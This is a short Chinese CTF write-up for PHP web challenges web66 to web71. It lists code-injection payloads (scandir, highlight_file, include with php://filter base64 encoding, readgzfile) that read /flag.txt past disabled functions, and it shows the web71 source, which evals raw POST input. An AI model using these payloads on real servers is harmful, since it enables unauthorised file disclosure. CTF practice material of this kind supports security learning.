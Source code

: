 ## web66

```php
先print_r(scandir('/'));查看根目录有哪些文件，发现flag.txt
再c=highlight_file('/flag.txt');查看文件
```

## web67

```php
禁掉了print_r，改成var_dump，然后和上题一样
```

## web68

```php
highlight_file被禁，那么使用c=include($_POST[1]);&1=php://filter/convert.base64-encode/resource=/flag.txt
拿到flag
```

## web69

```php
c=include($_POST[1]);&1=php://filter/convert.base64-encode/resource=/flag.txt

突然发现好像直接include('/flag.txt');就行了......之前的题目一样
readgzfile('/flag.txt');
var_dump可以用var_export替代
也可以使用下面的方法查看
echo(implode("--",scandir("/")));
```

## web70

```php
include('/flag.txt');
```

## web71

```php
<?php
error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);//获取输出缓冲区的内容并清空缓冲区，然后使用正则表达式将输出中的数字和字母替换为问号，并将结果输出
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```
